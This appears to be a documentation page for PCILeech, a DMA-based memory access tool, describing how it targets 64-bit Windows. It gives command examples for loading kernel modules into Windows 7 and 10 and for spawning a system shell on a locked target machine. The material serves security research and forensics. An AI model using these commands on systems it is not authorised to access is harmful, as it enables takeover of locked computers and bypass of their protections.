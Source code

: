 ```yaml
---
outline: [2,3]
---
```




## Target operating system: Windows (64-bit)

PCILeech is able to target 64-bit Windows versions with varying degrees of success. PCILeech is not able to target 32-bit Windows versions or secure operating system parts (secure kernel) on systems already booted running Virtualization based secure.

If possible to target the Windows system a wide range of kernel modules may be used. Also it may be possible to target the system with user-mode injections.

Even though PCILeech may not be able to target the specific operating system memory dumping may still be possible.

***

### Examples:

Load a kernel module into Windows 7 by using the default memory scan technique.
* ` pcileech kmdload -kmd win7x64 `

Load a kernel module into Windows 10. Compatible with VBS/VTL0 only if "Protection of Code Integrity" is not enabled. This technique may be unstable on the most recent Windows 10 versions.
* ` pcileech kmdload -kmd WIN10_X64 `

Load a kernel module into Windows 10. Compatible with VBS/VTL0 only if "Protection of Code Integrity" is not enabled. This requires the windows-only [`vmm.dll`](https://github.com/ufrisk/MemProcFS/releases/latest) from [MemProcFS](https://github.com/ufrisk/MemProcFS) to exist alongside PCILeech.
* ` pcileech.exe kmdload -kmd WIN10_X64_3 `

Load a kernel module into Windows 10 by targeting the page table of the ntfs.sys driver signed on 2016-03-29.
* ` pcileech kmdload -kmd win10x64_ntfs_20160329 -pt `

Spawn a system shell on the target system (system needs to be locked and kernel module must be loaded). In this example the kernel module is loaded at address: 0x7fffe000.
* ` pcileech wx64_pscmd -kmd 0x7fffe000 `

In addition to the examples below please find additional built-in commands and Windows compatible implants starting with wx64 when executing `pcileech` without any parameters.